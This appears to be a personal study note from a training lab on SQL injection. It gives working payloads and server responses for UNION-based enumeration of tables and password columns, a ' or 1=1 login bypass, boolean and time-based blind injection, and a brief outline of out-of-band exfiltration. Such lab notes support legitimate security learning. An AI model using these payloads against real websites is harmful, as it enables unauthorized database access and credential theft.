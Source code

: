 # SQL Injection

![](Pasted%20image%2020241116223725.png)

# [Introduction]()

In this case attacker exploit vulnerable input field in the web page to gain access of the database. Attacker inserts SQL command in the input field that interact with the database.
# [Example]()

![](Pasted%20image%2020241116225912.png)
![](Pasted%20image%2020241116225956.png)

# [SQL Injection Snippets]()

## [Example 0: Check SQL Injection Vulnerability]()

use `'` or `"` to know if the input field is vulnerable to SQL injection.

## [Example 1: In-band SQL Injection (reflected)]()

```sql
1 UNION SELECT 1
```

- If above gives error add another until success

```sql
0 UNION SELECT 1,2
```

```sql
0 UNION SELECT 1,2,3
```

- Above gives no error so look for database

```sql
0 UNION SELECT 1,2,database()
```

- `sqli_one` is the database name found. Get list of tables

```sql
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
```

- Fond `article,staff_users` tables. Get column from `staff_users`

```sql
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
```

- Found `id,password,username` columns. Let's get username and passwords

```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
## [Example 2: Blind SQL Injection: Bypass Auth]()
- Inserting below will result `true` for any input

```sql
' or 1=1;--
```

## [Example 3: Blind SQL Injection: Boolean Based]()

`https://website.thm/checkuser?username=admin` this page returns `{"taken":true}`. For username query parameter we will put below sql snippet.

- Similar to example 1, select 1 if error/fail look for select 1,2 and so one

```sql
admin123' UNION SELECT 1;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2;--
```
```
Response:
{"taken":false}
```

```sql
admin123' UNION SELECT 1,2,3;--
```
```
Response:
{"taken":true}
```

- Now the response `taken` is `true`, look for database.

```sql
admin123' UNION SELECT 1,2,3 where database() like '%';--
```
```
Response:
{"taken":true}
```

```sql
admin123' UNION SELECT 1,2,3 where database() like 's%';--
```
```
Response:
{"taken":true}
```

- Brute force the name using `database() like 'sa%'` `, database() like 'sa%'`  as the received output is true or false until get  the database name. In this case it is `sqli_three`

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three';--
```
```
Response:
{"taken":true}
```

- Brute force table name until response is true

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--
```

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
```

- Similarly brute force column name

```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%' and COLUMN_NAME !='id';
```

- Repeating the process to get username and password

```sql
admin123' UNION SELECT 1,2,3 from users where username like 'a%'
```
```sql
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%'
```

## [Example 4: Blind SQL: Time Based]()

There is no specific response for injected sql but in this case we use sleep(5) function to wait the server for 5 second. If the server waits for 5 second we know it is vulnerable to sql injection. 

- Similar to above example checking the number of columns by using

```sql
admin123' UNION SELECT SLEEP(5);--
```
![](Pasted%20image%2020241119155113.png)

This didn't wait for 5 seconds try for more number of columns

```sql
admin123' UNION SELECT SLEEP(5),2;--
```
![](Pasted%20image%2020241119155233.png)

This waited for 5 seconds telling there are 3 columns

## [Example 5: Out of band SQL]()

1. An attacker makes a request to a website vulnerable to SQL Injection with an injection payload.
2. The Website makes an SQL query to the database, which also passes the hacker's payload.
3. The payload contains a request which forces an HTTP request back to the hacker's machine containing data from the database.

![](Pasted%20image%2020241119160027.png)

